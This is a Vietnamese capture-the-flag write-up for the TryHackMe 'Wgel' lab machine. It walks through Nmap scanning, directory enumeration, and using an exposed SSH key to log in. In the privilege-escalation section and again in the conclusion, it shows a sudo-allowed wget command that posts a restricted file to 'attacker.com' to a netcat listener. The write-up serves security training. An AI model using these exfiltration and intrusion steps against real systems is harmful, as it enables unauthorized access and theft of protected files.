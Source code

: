 TryHackMe - Wgel CTF Writeup  
Tools used:  
Nmap  
1.Dirsearch  
2.Gobuster  
3.GTFOBins  
Scanning and Enumeration  

**LƯU Ý:** Địa chỉ IP của máy sẽ được biểu diễn là `10.10.x.x` vì TryHackMe cấp IP khác nhau cho từng người dùng.  

Giả sử bạn đã có IP của máy, hãy chạy **4 lệnh Nmap** để quét và thu thập thông tin hệ thống.  

Half TCP Scan (Quét TCP một nửa bắt tay)
```
nmap -n -sS -vv -T5 -p 1-20000 10.10.x.x -oN Half-TCP.txt
```
Quét phiên bản / Banner Grabbing  
Sử dụng Nmap để lấy thông tin phiên bản dịch vụ chạy trên các cổng.  
```
nmap -sV --version-all -vv -T5 -p 22,80 10.10.x.x -oN Version-scan.txt
```
Aggressive Scan  
Thực hiện quét nâng cao (Aggressive Scan) để vừa thu thập service, version vừa chạy các script cơ bản.  
```
nmap -A -vv -T5 10.10.x.x -oN Aggressive-scan.txt
```
Nmap NSE Vulnerability Scan  
Dùng Nmap với các script NSE để phát hiện lỗ hổng của dịch vụ trên port. 
```
nmap --script vuln -p 80 10.10.x.x -oN nse-vuln.txt
```
Điểm quan trọng ở đây chính là **Half TCP Scan** và **NSE Scan**:  
- Với **Half TCP Scan**, bạn sẽ biết được bao nhiêu port đang mở.  
- Với **NSE Scan**, bạn sẽ có được một “phác thảo” sơ bộ về những lỗ hổng mà port/dịch vụ đó có thể tồn tại.

Enumeration Website  

Từ đây, bên ngoài hệ thống không còn gì nhiều để khai thác. Chuyển trọng tâm sang website chạy trên **port 80**.  

Khi truy cập website, bạn sẽ thấy trang mặc định Apache2 Ubuntu. Hãy bỏ qua trang đó và bắt đầu enumerate website ngay.  


Bạn có thể dùng **Dirsearch** hoặc **Gobuster** (mình hay dùng Gobuster).  

Dirsearch
```
dirsearch -u http://10.10.x.x/ -t 120
```
Gobuster
```
gobuster dir -u http://10.10.x.x/ -x /path/to/wordlist/ -X /path/to/extension/wordlist -t 120
```
Lý do mình để danh sách extension trong file riêng là để chắc chắn không bỏ sót loại file nào.

Sau khi enumerate, thư mục duy nhất bạn thấy được truy cập là: http://10.10.x.x/sitemap/
Truy cập vào đó, bạn sẽ thấy một trang web.  

Quay lại bước đầu tiên, bạn nên tiếp tục enumerate website bằng **Dirsearch** hoặc **Gobuster** để tìm các file và thư mục có thể truy cập.  
Trong lúc chạy Dirsearch hoặc Gobuster, hãy kiểm tra **source code HTML** của `http://10.10.x.x/sitemap/` vì trong đó có chứa **một username**.  
Sau khi hoàn thành quét với Dirsearch hoặc Gobuster, bạn sẽ tìm thấy thư mục: /.ssh/
Lưu file trong đó và dùng nó để đăng nhập SSH.  


SSH login và Leo thang đặc quyền  

Sau khi đăng nhập thành công qua SSH, hãy lấy ngay **user flag** (thường nằm ở thư mục `/Documents/`).  

Privilege Escalation 
Nếu bạn chạy lệnh: 
```
sudo -l
```
Bạn sẽ thấy rằng user được phép chạy wget với đặc quyền cao.
Khai thác (Privilege Escalation)

Để khai thác, chạy lệnh sau:
```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```
--post-file : tuỳ chọn này sẽ gửi toàn bộ nội dung file (ví dụ: /root/root.txt) đến địa chỉ IP + port bạn chỉ định thông qua HTTP POST request.

LFILE : thay bằng đường dẫn của file mà bạn muốn đọc.

URL : thay bằng địa chỉ IP và port của máy tấn công (nơi bạn mở listener).


Trên máy tấn công (Kali)
Mở listener để chờ dữ liệu:
```
nc -lvnp 9999
```
```
ncat -lvnp 9999
```
Sau khi thiết lập listener, nhấn Enter và bạn sẽ thấy **root flag** được gửi về máy tấn công.  

Kết luận  

Nếu có điều gì chúng ta học được hôm nay, thì đó là:  
Ta có thể đọc và gửi nội dung của một file về máy của mình thông qua **HTTP POST request** bằng cách sử dụng lệnh:  
```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```
Chúng ta không thực sự leo thang đặc quyền bằng `wget`, tuy nhiên chúng ta đã **lợi dụng/abuse quyền SUID** để đọc được nội dung của các file bị hạn chế.  
